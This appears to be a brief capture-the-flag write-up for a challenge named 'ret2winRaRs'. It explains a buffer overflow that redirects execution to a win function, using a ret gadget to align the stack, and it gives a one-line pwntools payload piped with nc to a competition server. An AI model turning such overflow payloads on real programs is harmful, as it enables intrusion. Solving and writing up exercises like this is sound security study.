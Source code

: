 # ret2winRaRs: ret2win + align stack

buffer overflow -> return to win function + align stack with a ret instruction

```bash
python3 -c "from pwn import *; import sys; sys.stdout.buffer.write(b'A'*40 + p64(0x0000000000401016) + p64(0x0000000000401162)); print('\n')" | nc 193.57.159.27 30527
```